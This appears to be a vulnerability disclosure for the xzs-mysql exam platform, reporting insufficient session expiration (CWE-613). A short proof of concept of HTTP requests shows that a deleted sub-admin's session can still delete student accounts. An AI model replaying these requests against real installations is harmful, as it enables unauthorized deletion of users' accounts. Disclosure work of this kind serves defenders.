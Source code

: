 ## TYPE: Insufficient Session Expiration(CWE-613)

## Date: 3/13/2024
## Vendor
[mindskip](https://github.com/mindskip)
Homepage: https://github.com/mindskip/xzs-mysql
version: 3.8(updated 7/19/2022)
commit: 189b03f63bef4e2bfeba7003512860283ee27605(updated 3/8/2024)
## Tested on: Debian Linux, Mysql

## Exploit Description
Suffering from CWE613-Insufficient Session Expiration, which allows attackers to use the logged-out admin session to do anything.
### PoC
1. `admin` login
2. `admin` create another admin named `sub-admin`
```
POST 	/api/admin/user/edit HTTP/1.1
{"id":null,"userName":"sub-admin","password":"123456"...}
```
3. `sub-admin` logged in 
4. `admin` delete `sub-admin`
```
POST /api/admin/user/delete/12 HTTP/1.1
```
5. `sub-admin` can still delete students
```
POST /api/admin/user/delete/15 HTTP/1.1
...
response: 
HTTP/1.1 200 OK
{"code":1,"message":"成功","response":null}
```
![[Pasted image 20240313105753.png]]
![[Pasted image 20240313105803.png]]

